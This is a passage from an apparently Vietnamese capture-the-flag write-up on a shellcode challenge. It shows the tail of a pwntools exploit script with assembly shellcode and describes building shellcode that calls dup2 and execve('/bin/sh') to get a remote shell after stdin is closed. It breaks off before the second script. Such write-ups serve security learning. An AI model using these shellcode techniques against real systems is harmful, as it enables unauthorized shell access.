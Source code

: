 ```python
        nop
        nop
        nop
        nop
        nop
        nop
        nop
        nop
    sc12:
        xor rax,0x12
        nop
        nop
        syscall








         ''')
input()
p.sendafter(b'shellcode: ',sc)



p.interactive()
```

- cách 2 sẽ là get_shell , vì ở đây ```stdin``` đóng nên ta cần mở nó lại mới lấy được flag , nhưng ta cần biết là  khi đóng ```stdin``` thì dù mở lại cũng không hoạt động ở local nhưng remote thì lại được  , vì ở local ```stdin``` và ```stdout``` ```stderr``` sẽ là 3 thằng khác nhau và hoàn toàn riêng biệt , nhưng khi nc tới sever thì cả 3 th đó sẽ tạo 1 đường hầm và đi chung với nhau , muốn hiểu rõ thì xem video của a Trí <3 [here](https://www.youtube.com/watch?v=swIAzpok96Y&t=2s)

- vậy ta sẽ viết shellcode thực thi ```dup2(0,1)``` và ```execve('/bin/sh',0,0)```


- và chắc chắn khi input ở local thì nó sẽ bị lỗi 

![here](/assets/images/stdin.png)

- vậy ta sẽ phải build docker mới có thể thành công lấy shell , tuy nhiên mình lười nên thôi để script ở đây :v

exp: 
